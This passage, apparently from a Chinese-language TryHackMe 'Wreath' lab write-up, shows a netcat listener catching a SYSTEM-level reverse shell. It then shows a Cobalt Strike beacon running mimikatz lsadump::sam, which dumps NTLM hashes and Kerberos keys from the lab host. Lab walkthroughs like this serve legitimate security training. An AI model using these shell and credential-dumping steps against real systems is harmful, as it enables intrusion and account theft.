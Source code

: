 
收到system shell
```
┌──(root💀kali)-[~/tryhackme/Wreath]
└─# nc -lnvp 443                                                                                           130 ⨯
listening on [any] 443 ...
connect to [10.50.102.104] from (UNKNOWN) [10.200.101.100] 51593
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```


# Task 44  Exfiltration Exfiltration Techniques & Post Exploitation

反弹一个CS的beacon，dump出哈希

```
beacon> mimikatz lsadump::sam
[*] Tasked beacon to run mimikatz's lsadump::sam command
[+] host called home, sent: 750702 bytes
[+] received output:
Domain : WREATH-PC
SysKey : fce6f31c003e4157e8cb1bc59f4720e6
Local SID : S-1-5-21-3963238053-2357614183-4023578609

SAMKey : 2cd4ce2e61c42d1ee27e0bd1de2bf11b

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: a05c3c807ceeb48c47252568da284cd2

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 0a694ecc8e6294041abed05d4c9e5cb2

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-OG0LO2IQ9I7Administrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : f1612b31cfe080b4d0e0bcff5a3049ae7f2640319157d1ee3a1ee6544885c732
      aes128_hmac       (4096) : 50a8ad0913485e14756ed79b531d046b
      des_cbc_md5       (4096) : ba4fd00e377a91f2

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-OG0LO2IQ9I7Administrator
    Credentials
      des_cbc_md5       : ba4fd00e377a91f2


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

```